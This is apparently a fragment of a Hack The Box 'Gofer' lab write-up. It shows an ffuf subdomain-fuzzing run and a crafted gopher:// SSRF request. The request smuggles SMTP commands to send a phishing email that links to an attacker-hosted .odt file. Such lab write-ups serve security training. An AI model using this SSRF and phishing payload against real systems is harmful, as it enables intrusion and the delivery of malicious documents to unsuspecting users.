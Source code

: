 ```text
┌──(kali㉿kali)-[~/htb/machines/Gofer]
└─$ ffuf -H "Host: FUZZ.gofer.htb" -u http://gofer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://gofer.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.gofer.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 301
________________________________________________

proxy                   [Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 41ms]
Proxy                   [Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 56ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```



Request:

```text
POST /index.php?url=gopher://2130706433:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<a+href%3d'http%3a//10.10.14.145/test.odt>this</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a HTTP/1.1
Host: proxy.gofer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

```
